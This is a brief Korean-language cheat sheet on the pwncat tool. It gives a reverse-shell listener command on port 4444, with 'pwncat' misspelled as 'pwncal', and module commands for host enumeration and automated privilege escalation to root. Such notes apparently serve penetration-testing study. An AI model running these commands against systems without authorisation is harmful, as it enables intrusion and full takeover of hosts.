 > Author: jak010
> Date: 2021.05.29
> Handle with Pwncat Summary

## pwncat repository
  - `https://github.com/calebstewart/pwncat`

## Reverse Shell
  - Command
    ```sh
    $ pwncal 0.0.0.0:4444 
    ```

## Modules
  - `pwncat`에서 제공해주는 모듈을 사용하기 위해서는 `CTRL + D` 키를 입력 후 아래와 같은 쉘이 떨어지면 사용가능
    ```sh
    (local) pwncat$
    ```
  - Enumeration
    ```sh
     (local) pwncat$ run enumerate.gather
    ```
  - Automated Privilege Escalation
    ```sh
    (local) pwncat$ run escalate.auto exec user=root shell=/bin/bash
    ```